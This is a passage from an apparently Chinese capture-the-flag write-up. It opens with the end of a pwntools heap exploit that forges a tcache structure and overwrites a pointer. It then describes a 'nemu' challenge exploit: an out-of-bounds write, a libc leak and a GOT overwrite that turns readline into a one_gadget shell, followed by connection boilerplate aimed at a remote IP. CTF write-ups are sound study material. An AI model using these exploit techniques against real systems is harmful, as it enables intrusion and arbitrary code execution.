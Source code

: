 ```Apache
    add(0x110,'a')

    fake_t = p16(7)*8*4+p16(1)*8*4+p64(0)*40
    add(0x280,fake_t)        


    pay = 0x3d0*'a'+p64(0)+p64(0x21)+p64(0x404070)[0:6]

    add(0x400,pay)

    add(0x10,'a')
    # dbg()
    
    # debug([0x4014a2],0)
    
    # choice(3)

    it()
if __name__ == '__main__':
        exp()
```



## **nemu**

set x存在越界读写，先利用堆结构泄露libc，再修改free_指针指向got表，添加断点的时候就可以改got表，改readline为one拿shell  

```Python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.terminal=['tmux', 'splitw', '-h']
prog = './nemu'
#elf = ELF(prog)#nc 121.36.194.21 49155
#p = process(prog)#,env={"LD_PRELOAD":"./libc-2.27.so"})
libc = ELF("./libc-2.23.so")
p = remote("47.107.29.210",20943)#nc 124.71.130.185 49155
def debug(addr,PIE=True): 
        debug_str = ""
        if PIE:
                text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16) 
                for i in addr:
                        debug_str+='b *{}\n'.format(hex(text_base+i))
                gdb.attach(p,debug_str) 
        else:
                for i in addr:
                        debug_str+='b *{}\n'.format(hex(i))
                gdb.attach(p,debug_str) 

def dbg():
        gdb.attach(p)
#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send((data))        #in case that data is an int
sa      = lambda delim,data         :p.sendafter(str(delim), (data)) 
sl      = lambda data               :p.sendline((data)) 
sla     = lambda delim,data         :p.sendlineafter(str(delim), (data)) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
it      = lambda                    :p.interactive()
uu32    = lambda data   :u32(data.ljust(4, '\0'))
uu64    = lambda data   :u64(data.ljust(8, '\0'))
```
